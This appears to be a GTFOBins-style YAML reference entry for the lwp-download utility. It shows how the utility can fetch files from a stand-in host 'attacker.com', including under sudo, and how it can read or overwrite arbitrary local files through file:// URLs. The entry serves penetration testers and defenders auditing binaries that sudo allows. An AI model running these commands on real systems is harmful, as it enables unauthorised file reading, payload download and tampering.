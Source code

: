 ```yaml
---
description: Fetch a remote file via HTTP GET request.
functions:
  file-download:
    - code: |
        URL=http://attacker.com/file_to_get
        LFILE=file_to_save
        lwp-download $URL $LFILE
  sudo:
    - code: |
        URL=http://attacker.com/file_to_get
        LFILE=file_to_save
        sudo lwp-download $URL $LFILE
  file-read:
    - description: The file path must be absolute.
      code: |
        LFILE=file_to_read
        TF=$(mktemp)
        lwp-download "file://$LFILE" $TF
        cat $TF
  file-write:
    - code: |
        LFILE=file_to_write
        TF=$(mktemp)
        echo DATA >$TF
        lwp-download file://$TF $LFILE
---
```

